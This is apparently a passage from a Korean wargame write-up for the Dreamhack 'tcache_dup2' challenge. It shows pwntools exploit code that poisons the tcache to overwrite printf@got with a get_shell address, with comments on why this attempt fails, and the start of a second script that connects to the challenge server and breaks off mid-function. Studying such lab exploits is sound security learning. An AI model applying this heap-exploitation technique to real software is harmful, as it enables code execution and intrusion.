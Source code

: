 ```py


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> printf@got
# tc_idx = 2
# chunk : ptr[1]
printf_got = elf.got['printf']
modify(1, 0x10, p64(printf_got))


# tcache[0x20] : printf@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))
# tcache에서 청크를 찾아서 할당할 때 해당 청크에 `e->key = NULL;`을 해서 `청크 + 0x8`을 `0x00`으로 초기화하기 때문에,
# 여기서 printf@got를 할당할 때, [printf@got + 0x8]에 위치하는 read@got의 값이 NULL(0x00)으로 바뀜
# tcache_dup 워게임에서는 printf@got 뒤에 alarm@got가 존재해서 상관없지만, 여기서는 create 내부에서 read로 데이터에 get_shell을 대입해야 하므로 read@got를 수정하면 안됨

p.interactive()
```

<br>

## **ex_wrong3.py**

```py
from pwn import *

p = remote('host3.dreamhack.games', 14896)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
```